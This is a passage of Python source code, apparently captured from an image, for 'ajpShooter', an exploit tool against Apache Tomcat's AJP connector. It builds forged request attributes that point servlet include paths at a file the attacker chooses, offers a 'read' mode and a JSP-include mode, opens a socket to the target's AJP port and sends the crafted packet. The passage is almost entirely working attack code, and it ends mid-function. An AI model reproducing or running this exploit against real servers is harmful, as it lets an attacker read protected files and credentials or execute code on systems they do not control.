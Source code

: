 ```plain

    def read_string(self, int_len=2):
        data_len = self.read_int(int_len)
        data = self.recv(data_len)
        # consume the 0x00 terminator
        end = self.recv(1)
        log('debug', 'read_string read data_len:%d\ndata_len:%d\nend:%s' % (data_len, len(data), end))
        return data

    def recv(self, data_len):
        data = self.sock.recv(data_len)
        while len(data) < data_len:
            log('debug', 'recv not end,wait for %d bytes' % (data_len - len(data)))
            data += self.sock.recv(data_len - len(data))
        return data


class ajpShooter(object):
    def __init__(self, args):
        self.args = args
        self.headers = args.header
        self.ajp_port = args.ajp_port
        self.requesturl = args.url
        self.target_file = args.target_file
        self.shooter = args.shooter
        self.method = args.X
        self.out_file = args.out_file

    def shoot(self):
        headers = self.transform_headers()

        target_file = self.target_file.encode('utf8')

        attributes = []
        evil_req_attributes = [
            (b'javax.servlet.include.request_uri', b'index'),
            (b'javax.servlet.include.servlet_path', target_file)
        ]

        for req_attr in evil_req_attributes:
            attributes.append((b"req_attribute", req_attr))

        if self.shooter == 'read':
            self.requesturl += '/index.txt'
        else:
            self.requesturl += '/index.jsp'

        ajp_ip = urllib.parse.urlparse(self.requesturl).hostname

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ajp_ip, self.ajp_port))

        message = ajpRequest(self.requesturl, self.method, headers, attributes).make_forward_request_package()
        s.send(message)

        ajpResponse(s, self.out_file).parse_response()

    def transform_headers(self):
        self.headers = [] if not self.headers else self.headers
        newheaders = []
        for header in self.headers:
```